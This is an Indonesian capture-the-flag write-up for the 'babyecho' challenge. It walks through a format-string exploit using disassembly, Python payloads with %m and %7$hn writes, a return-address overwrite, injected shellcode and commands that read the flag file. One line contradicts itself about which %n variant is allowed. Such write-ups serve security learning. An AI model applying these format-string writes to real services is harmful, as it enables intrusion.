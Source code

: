 # babyecho

**Kategori:** Baby's first
**Points:** 1
**Deskripsi**

## Write-up

Kita diberikan sebuah binary, dan binary ini hanya mengoutputkan balik apa yang kita ketikkan. Pertama kali dijalankan, akan muncul pesan:

      Reading 13 bytes

Jika kita masukkan string `%d`, maka akan muncul `13`, berarti kemungkinan besar ini masalah format string exploit. Hal pertama yang harus kita lakukan adalah memperbesar ukuran input yang akan dibaca oleh, supaya kita bisa mengirimkan string yang lebih panjang. Menengok pada  disassemblynya alamat `esp+0x10` berisi jumlah karakter yang akan dibaca, jika kita bisa mengubah nilai ini, maka berikutnya kita bisa mulai membuat exploit

	08048FB6                 mov     eax, 3FFh
	08048FBB                 cmp     dword ptr [esp+10h], 3FFh
	08048FC3                 cmovle  eax, [esp+10h]
	08048FC8                 mov     [esp+10h], eax
	08048FCC                 mov     eax, [esp+10h]
	08048FD0                 mov     [esp+4], eax
	08048FD4                 mov     dword ptr [esp], offset aReadingDBytes ; "Reading %d bytes\n"
	08048FDB                 call    printf


Kita perlu tahu alamat buffer (yang ada di `esp+0x1c`):

	08048FE0                 mov     dword ptr [esp+8], 0Ah
	08048FE8                 mov     eax, [esp+10h]
	08048FEC                 mov     [esp+4], eax
	08048FF0                 lea     eax, [esp+1Ch]
	08048FF4                 mov     [esp], eax
	08048FF7                 call    readbytes

Penggunaan `%n` tidak diperkenankan (akan diubah oleh program menjadi `_n`), jadi kita perlu memakai `%n`. Karena buffer sangat kecil, tidak mungkin menggunakan '%p%p%p%p%p%p' agar kurang dari 13 karakter. Butuh agak lama bagi saya untuk menemukan tentang penggunaan `%$` untuk indexing parameter pada `printf`. Saya menggunakan cara sederhana untuk mengekspand buffernya: pertama cari tahu dulu alamat buffernya dengan `%d%d%d%d%p`, lalu saya kurangi dengan `0xc` (karena ada di `[esp+0x10]`), 

     tosend = q(stack-0xc) + "%m%7$hn\n"

Saya memakai fungsi `q` sebagai shortcut saja untuk:

```python
def q(a):
  return struct.pack("I", a)
```

Seharusnya ada cara yang lebih cepat untuk mengekspand buffer, tapi cara itu yang terpikir pertama kali oleh saya. Format `%m` akan memprint error message yang cukup panjang, dengan itu panjang yang akan dibaca menjadi 29 bytes:

      Reading 29 bytes
      
Saya ulangi lagi dengan `%m` yang lebih banyak:

```python
tosend = q(stack-0xc) + "%m" * 9 +  "%7$hn\n"
```

      Reading 229 bytes
      
Dan sekali lagi:      

```python
tosend = q(stack-0xc) + "%m" * 44 +  "%7$hn\n"
```

      Reading 1023 bytes

Berikutnya kita perlu mengubah return address, supaya ketika fungsi ini keluar, maka kode shell kita yang akan dipanggil. Karena kita bisa mengirimkan format string berkali-kali, maka saya ubah satu byte demi satu byte. Terakhir kita perlu keluar dari loop

	08049027                 call    _alarm
	0804902C
	0804902C loc_804902C:                            ; CODE XREF: main+78 ^
	0804902C                 cmp     dword ptr [esp+18h], 0
	08049031                 jz      short loc_8048FB6

Kita akan keluar dari loop jika `esp+0x18` bernilai tidak 0, jadi kita tidak peduli nilainya asalkan bukan 0. Terakhir saya kirimkan shell code bersama dengan format string untuk mengeset `esp+0x18` dengan nilai non-zero:

```python
tosend = q(stack-0xc+0x8) + shell + "%7$hn---\n"
```

Sekarang setelah mendapatkan shell, kita bisa mencari tahu di mana flagnya:

	ls /
	ls /home/
	ls /home/babyecho/
	cat /home/babyecho/flag

Dan flagnya:

     The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
